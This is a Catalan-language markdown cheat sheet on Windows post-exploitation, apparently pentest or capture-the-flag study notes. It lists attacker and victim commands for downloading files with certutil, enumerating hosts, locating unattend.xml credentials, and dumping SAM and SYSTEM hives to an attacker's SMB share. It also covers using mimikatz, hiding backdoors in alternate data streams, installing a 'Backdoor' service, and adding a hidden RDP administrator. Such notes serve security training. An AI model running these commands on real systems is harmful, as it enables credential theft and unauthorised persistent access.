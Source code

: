 # Windows post-exploitation
## Utilities
##### File Transfer
```bash
# HTTP
python -m http.server [port] # Atacant
certutil -f -urlcache http://[ip]:[port]/[file] [output] # Víctima

# SMB
impacket-smbserver [folder] $(pwd) -smb2suport # Atacant
copy \\[ip]\[folder]\[file] [output] # Víctima
```
##### UAC Bypass
L'_User Access Control_ és un panell de confirmació d'execució amb privilegis, i d'introducció de credencials d'administrador si s'escau. Té diferents nivells de seguretat, de baix fins a alt, i hi ha tècniques per poder esquivar-lo, sempre que es tingui accés amb un usuari dins el grup d'administradors.

Per aquesta tècnica, s'utilitza l'eina [UACMe](https://github.com/hfiref0x/UACME) o i es pot trobar una demostració a la màquina [Napper](https://www.youtube.com/watch?v=yKNxdxixfHg) de HTB.
## Local enumeration
--> **Hostname, OS Name, OS Build, Service Pack, OS architecture & hotfixes**
```
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
C:/Windows/System32/eula.txt
```
--> **Current user & privileges, user info, other users, groups, members of the admin group**
```
whoami [/priv]
query user
net users
net user [user]
net localgroup [group]
```
--> **IP, Network Adapter, Internal Networks, TCP/UPD services, hosts, routing, firewall**
```
ipconfig /all
route print
arp -a 
netstat -ano
netsh advfirewall show allprofiles
```
--> **Processes, services, scheduled tasks**
```
tasklist /v | findstr [process]
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo /v LIST
```
> Es pot automatitzar aqauesta enumeració amb [JAWS](https://github.com/411Hall/JAWS) o [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md).
## Privilege escalation
##### Kernel exploits
El kerne és el "sistema nerviós central" del Sistema Operatiu. Fa la funció de traducció entre el hardware i el software del dispositiu, i té control sobre els recursos i el hardware del sistema. En el cas de windows, el kernel és Windows NT i té dos modes, per qüestions de seguretat: User Mode, amb accés limitat, i System Mode, amb accés total.

All llarg dels anys, han anat sortit diferents vulnerabilitats que afecten al kernel de Windows i que, per tant, permetrien augmentar els privilegis de l'atacant al nivell del sistema. L'enumeració manual de totes les vulnerabilitats és massa tediosa, així que se sol utilitzar [sherlock.ps1](, [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), [PowerUP](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) o [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md).
##### Access Token Impersonation
Els Access Token, creats per LSASS, són un element clau del procés d'autenticació de Windows. Serveixen per identificar el context de seguretat i privilegis d’un procés o tasca corrent al sistema, és a dir, com una mena de cookie associada a l’usuari que permet accedir al procés sense haver de proporcionar credencials cada cop. N'hi ha de dos tipus:
- **Impersonate-level:** permet a un procés o thread assumir temporalment la identitat d'un altre usuari. 
- **Delegate-level:** mateixa funció que el impersonate-level però permet passar les credencials a altres sistemes de la xarxa.
La condició principal per a que pugui donar-se el Access Token Impersionation és que hi hagi un dels següents tokens activats: **SeAssignPrimaryToken, SeCreateToken** o **SeImpersonatePrivilege**

Les eines emprades en aquesta tècnica són [FullPowers](https://github.com/itm4n/FullPowers) i [PrintSpoofer.exe](https://github.com/dievus/printspoofer).
##### Config files
Quan un sysadmin configura diversos equips a la vegada, té la possibilitat d'utilitzar una "Unattended Installation", una instal·lació en massa de tots els sistemes amb la mateixa configuració. 

Aquesta instal·lació deixa, posteriorment, un arxiu amb les credencials de l'Administrador que s'han utilitzat per la instal·lació, en text pla o en base64. La localització normal d'aquest arxiu és _C:\Windows\Panther\Unattend.xml_.

> La Santa Bíblia del PrivEsc a Windows: [Windows PrivEsc](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/).
## Persistence
##### Alternate Data Streams
Els ADS són un atribut de NTFS (_New Technology File System)_ dissenyat per proporcionar compatibilitat amb MacOS. Permet emmagatzemar metainformació amb un fitxer dins el propi fitxer. Serveix per amagar codi maliciós en les metadades d'arxius legítims, evadint la detecció de l'antivirus i d'un escaneig.
```bash
# exemple d'arxiu de text amb el backdoor a la metadata
notepad.exe [file]:[backdoor]
mklink [program] [file]:[backdoor] # executar backdoor quan s'executi el programa
```
##### Pass-the-hash
És l'ús de hashes NTLM sense crackejar per autenticar-se al servei objectiu. No és ben bé una explotació del servei sinó una funcionalitat, així que tot i que sigui una vulnerabilitat coneguda seguirà podent utilitzar-se en actualitzacions futures. Per extreure els hashes NTLM de la màquina víctima es necessiten privilegis d'administrador, ja que s'ha d'interactuar amb els registres de Windows SAM y SYSTEM. Es pot fer de les següents maneres:
```bash
# Manualment: 
# A la màquina víctima
reg save HKLM\sam [file]
reg save HKLM\system [file2]
# A la màquina atacant
impacket-smbserver [folder] $(pwd) -smb2support
# A la màquina víctima
copy [file(2)] \\[ip-atacant]\[folder]\[output-file]

# crackmapexec
crackmapexec smb -u [user] -p [pass] --sam

# mimikatz (binari pujat a la màquina víctima)
lsa_dump_sam
```
##### Services
Amb privilegis d'administrador, és possible crear un servei que s'executi de forma arbitrària en certes ocasions, per exemple a l'arrencada del sistema. Aquest servei hauria de contenir el backdoor que pogués estaular una consola interactiva al nostre host.
```powershell
New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here." -StartupType Automatic \ sc start Backdoor
```
##### RDP
Encara que no estigui activat, un cop a dins de la màquina víctima i amb privilegis d'administrador és possible obrir el servei de RDP i crear un usuari propi per poder accedir-hi.
```bash
# Atacant
crackmapexec -u [user] -p [pass] -M rdp --action=enable # Obrir RDP

# Víctima
net user [user] [pass] /add # Crear nou usuari
net localgroup Administrators [user] /add # Donar privilegis d'admin a l'usuari
net localgroup "Remote Desktop Users" [user] /add # Poder accedir amb RDP
```
> La Santa Bíblia de la persistència a Windows: [Windows Persistence](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/).
 